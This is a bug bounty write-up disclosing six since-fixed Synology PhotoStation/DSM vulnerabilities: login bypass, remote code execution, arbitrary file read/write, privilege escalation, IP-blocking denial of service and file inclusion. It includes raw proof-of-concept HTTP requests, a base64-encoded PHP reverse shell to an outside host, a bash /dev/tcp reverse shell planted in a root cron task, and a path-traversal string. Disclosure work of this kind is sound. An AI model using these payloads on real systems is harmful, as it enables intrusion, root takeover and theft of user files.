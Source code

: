```yaml
---
title: '[Synology Bug Bounty 2016]'
author: BambooFox
tags:
  - web
  - 'Synology Bug Bounty '
  - bug bounty
  - DoS
  - LFI
  - command injection
categories:
  - write-ups
  - bug-bounty-report
date: 2017-03-20 07:28:00
---
```

Synology Bug Bounty Report
=============

> Author: BambooFox Team 
> ( Henry, jpeanut, ding, leepupu, Angelboy, boik, adr, Mango King, Bletchley )

Last year ( 2016 ) , we BambooFox are invited to join the Synology Bug Bounty program. After about 2 months of hacking, we discovered several vulnerabilities, including a **remote root code execution** vulnerability. Synology engineers response and fix the vulnerabilities in a very sort time, which shows they pay a lot of attention to  security issues.

And now ( in 2017 ) , we are allowed to publish the vulnerabilities:  
* [Vul-01 PhotoStation Login without password](#Vul-01-PhotoStation-Login-without-password )
* [Vul-02 PhotoStation Remote Code Execution](#Vul-02-PhotoStation-Remote-Code-Execution)
* [Vul-03 Read-Write Arbitrary Files](#Vul-03-Read-Write-Arbitrary-Files)
* [Vul-04 Privilege Escalation](#Vul-04-Privilege-Escalation)
* [Vul-05 DoS via Blocking IP](#Vul-05-DoS-via-Blocking-IP)
* [Vul-06 Local File Inclusion](#Vul-06-Local-File-Inclusion)

## Vul-01: PhotoStation Login without password
---
We mostly focus on **PhotoStation**, which is the picture management system enabled in most Synology DSM ( DiskStation Manager ).

The first vulnerability allowed us to **login as admin without entering the password.**

PoC1:
```
GET //photo/login.php?usr=admin&sid=xxx&SynoToken=/bin/true HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept:    text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: |
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

The key points are the `|` character in the `X-Forwarded-For` field and `/bin/true` in the get parameter `SynoToken`. The server site CGI will concatenate the strings in `usr`, `X-Forwarded-For` and `SynoToken` into a command and execute the command, and the special characters `|` and `>` aren't filtered out correctly, which will lead to the **command injection** vulnerability. 

Therefore in our PoC1, the command will become:
```
/usr/syno/bin/synophoto_dsm_user username | /bin/true
```

The command will return 0 (True) and thus bypass the authentication.

**Result:
Adversary can login as admin without password**

![Login without password](http://i.imgur.com/pnIWZ6t.png)

## Vul-02: PhotoStation Remote Code Execution
---
After we successfully login as admin via the command injection vulnerability, we extended the attack surface to attempt remote code execution.

PoC2: 
1 . Encode the command into base64 format
```
base64encode( $sock=fsockopen("......",8080);exec("/bin/sh -i <&3 >&3 2>&3"); )
=> JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOw==
```

2 . Send the payload
```
GET //photo/login.php?usr=|&sid=php&SynoToken=eval%28base64_decode%28%22JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA%2bJjMgMj4mMyIpOw%3D%3D%22%29%29%3B HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: -r
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

We adopted a similar approach (PoC1) in order to achieve RCE.

We then took a deep look into the source code of PhotoStation, and found the following  code:
```php
if ($x_forward) {
    $ip = $x_forward;
}
// ...
$retval = csSYNOPhotoMisc::ExecCmd('/usr/syno/bin/synophoto_dsm_user', array('--current', $user, $session_id, $ip, $synotoken), false, $isValidUser);

if ($retval === 0) {
    $login_status = true;
} else {
    // login failed
}
```

In this code snippet, `$user`, `$ip` and `$synotoken` can be easily controlled by crafting the HTTP headers, and that's the original cause of the command injection vulnerability.  
Our first few attempts failed due to the site filtered out some special characters. However, we noticed that the site did not filtered out all the special characters. Here's the code that indicated the non-filtered characters:
```php
static $skipEscape = array('>', '<', '|', '&');
```

As a result of the code above, `>`, `<`, `|` and `&` can be used to achieve command injection.

![Remote Code Execution](http://i.imgur.com/qJxpKq8.png)

## Vul-03: Read-Write Arbitrary Files
---
After we got the shell, we continued to find security flaws in the DSM. The binary program `synophoto_dsm_user` got our attention. This binary is a **setuid program**, and has a powerful copy function.  
With the `--copy` parameter, it will do the `cp` command and **copy a file with the root permission**. This make us have the ability to read/write an arbitrary file .

## Vul-04: Privilege Escalation
---
With the previous Vul-03, we can exploit the vulnerability and **escalate our privilege to root**. We first tried modify the `/etc/crontab` file, but failed due to the [AppArmor](https://en.wikipedia.org/wiki/AppArmor) protection. So we change our target to the file that will be invoked by crontab. Finally we found `/tmp/synoschedtask`, a task which will be invoked by crontab as root. We use `synophoto_dsm_user` to modify its file content to the following command:
```
/volume1/photo/bash -c '/volume1/photo/bash -i >& /dev/tcp/x.x.x.x/yyyyy 0>&1'
```

Now we can wait for our reverse shell, with the root permission.
![Remote Code Execution](http://i.imgur.com/5YrQU54.jpg)

## Vul-05: DoS via Blocking IP
---
We also found some other security flaws.
If a user sends too many requests to `forget_passwd.cgi`, the user will be blocked by his IP, which is retrieved from the `X-Forwarded-For` header.
However, `X-Forwarded-For` can be easily forged from the client side, therefore an attacker can block as many user as he want by forging the `X-Forwarded-For` header, leading a DoS attack.
![Block IP](http://i.imgur.com/aU9IDWm.png)

## Vul-06: Local File Inclusion
---
There's a LFI (Local File Inclusion) vulnerability in `download.php`. The `id` parameter is controllable.  
For example, we can use `../../../../../../var/services/homes/[username]/.gitconfig` to download a user's git config file.

![Local File Inclusion](http://i.imgur.com/ZpL5Tw7.png)  



## Timeline
* 2016/07/25 Report vulnerabilities to Synology
* 2016/09/01 Confirm that all vulnerabilities has already been fixed by Synology
* 2017/03/13 Confirm that we're allowed to publish the bug bounty report
* 2017/03/20 Synology Bug Bounty Report published


## Note
Some of the vulnerability has already been discovered by Lucas Leong from Trend Micro ( [link](http://seclists.org/oss-sec/2016/q1/236) )
